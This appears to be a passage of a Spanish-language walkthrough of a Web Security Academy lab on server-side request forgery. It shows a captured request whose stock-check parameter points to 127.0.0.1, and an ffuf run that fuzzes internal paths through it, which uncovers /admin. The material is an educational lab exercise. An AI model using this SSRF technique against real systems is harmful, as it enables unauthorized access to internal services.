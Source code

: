```
┌──(root㉿nptg)-[/ssrf]
└─# cat ssrfdir.txt 
POST /product/stock HTTP/2
Host: 0aa4009a0300a26280dad03600080051.web-security-academy.net
Cookie: session=3ByQ8WXJrb3odYu3g0AkbOm3PTxU61KY
Content-Length: 26
Sec-Ch-Ua-Platform: "Linux"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Sec-Ch-Ua: "Google Chrome";v="141", "Not?A_Brand";v="8", "Chromium";v="141"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Origin: https://0aa4009a0300a26280dad03600080051.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aa4009a0300a26280dad03600080051.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: es,es-ES;q=0.9,en;q=0.8,zh-TW;q=0.7,zh-CN;q=0.6,zh;q=0.5
Priority: u=1, i

stockApi=http://127.0.0.1/FUZZ

```

Seleccionamos el parámetro vulnerable para hacer el fuzzing (marcado como FUZZ) y lanzamos la enumeración. Durante el análisis filtramos las respuestas que no nos interesan según su tamaño —en este caso el patrón irrelevante corresponde a respuestas de 10665 bytes— hasta encontrar rutas válidas. Como resultado identificamos un directorio que inicialmente no era accesible: /admin.


```
┌──(root㉿nptg)-[/ssrf]
└─# ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -request ssrfdir.txt -t 200 -fs 10665

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : https://0aa4009a0300a26280dad03600080051.web-security-academy.net/product/stock
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Header           : Host: 0aa4009a0300a26280dad03600080051.web-security-academy.net
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
 :: Header           : Sec-Fetch-Mode: cors
 :: Header           : Referer: https://0aa4009a0300a26280dad03600080051.web-security-academy.net/product?productId=1
 :: Header           : Cookie: session=3ByQ8WXJrb3odYu3g0AkbOm3PTxU61KY
 :: Header           : Accept: */*
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Sec-Ch-Ua: "Google Chrome";v="141", "Not?A_Brand";v="8", "Chromium";v="141"
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Accept-Language: es,es-ES;q=0.9,en;q=0.8,zh-TW;q=0.7,zh-CN;q=0.6,zh;q=0.5
 :: Header           : Sec-Ch-Ua-Platform: "Linux"
```